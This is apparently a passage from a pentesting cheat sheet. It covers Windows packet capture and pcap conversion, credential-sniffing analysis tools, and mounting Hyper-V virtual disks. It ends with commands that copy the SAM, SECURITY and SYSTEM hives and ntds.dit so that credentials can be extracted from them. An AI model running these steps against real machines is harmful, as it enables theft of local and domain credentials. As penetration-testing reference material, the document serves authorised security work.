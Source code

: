 #### Stop packet capture
```
netsh trace stop
```

#### Transform the .etl file to pcap file
- https://github.com/microsoft/etl2pcapng
```
.\etl2pcapng.exe NetTrace.etl capture.pcapng
```

#### Open the pcap in prefered tool such as WireShark

### Analyze pcaps
- https://github.com/lgandx/PCredz
- https://www.netresec.com/?page=NetworkMiner

## Virtual Machines
#### Check for virtual disks on the system
```
Get-Childitem -Path C:\Users\* -Include *.vhdx, *.vhd, *.vmdk, *.OVF, *.OVA, *.VDI -Recurse -ErrorAction SilentlyContinue
Get-Childitem -Path C:\ -Include *.vhdx, *.vhd, *.vmdk, *.OVF, *.OVA, *.VDI -Recurse -ErrorAction SilentlyContinue
```

### HyperV cmdlets
#### List VM's
```
Get-VM
```

#### Stop VM
```
Stop-VM -Name <VM NAME>
```

#### Get the VHDX location of VM
```
Get-VM -VMName <VM NAME> | Select-object VMId | Get-VHD
Get-VM -VMName <VM NAME> | Select-object VMId | Get-VHD | Select-Object Path
```

#### Mount the VHDX
```
Mount-VHD -Path "<PATH TO VHDX>" -PassThru
Get-Disk | Get-Partition | Get-Volume
```

#### Copy senstive files and extract credentials
- From SAM or ntds.dit example.
```
copy-item D:\Windows\system32\config\SAM C:\users\public\
copy-item D:\Windows\system32\config\SECURITY C:\users\public\
copy-item D:\Windows\system32\config\SYSTEM C:\users\public\
copy-item D:\Windows\ntds\ntds.dit C:\users\public\
```
